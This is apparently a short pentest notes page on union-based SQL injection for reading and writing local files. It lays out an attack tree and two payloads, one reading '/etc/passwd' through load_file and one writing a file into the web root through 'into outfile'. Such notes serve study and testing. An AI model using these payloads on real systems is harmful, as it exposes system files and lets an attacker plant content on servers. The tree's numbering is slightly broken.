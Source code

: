 # Read and write local files outside of www root

## Attack tree

```text
1 SQL injection extract data from 
    1.1 Find out if the database is vulnerable (AND)
        1.1.1 Inject data in the query without breaking it
    1.2 Find the amount of columns (AND)
    1.3 Find which columns accept queries (AND)
    1.4 Build an UNION SELECT SQL segment
    1.5 Inject SQL statements into the column
    1.4 Post exploitation
```
## Example SQL segments

Read file:
```text
-1' UniOn selEct 1,load_file('/etc/passwd') /*
```

Write file (only works with permission to write to `/var/www/` of course, otherwise use `/tmp/`):
```text
-1' UniOn selEct null,'example,example' inTo outfile '/var/www/example.txt' /*
```

## Notes

Union-based SQL injection is the most common of all the SQL injections. It uses the UNION statement to integrate two or 
more SELECT statements in a SQL query thereby obtaining data illegally from the database.
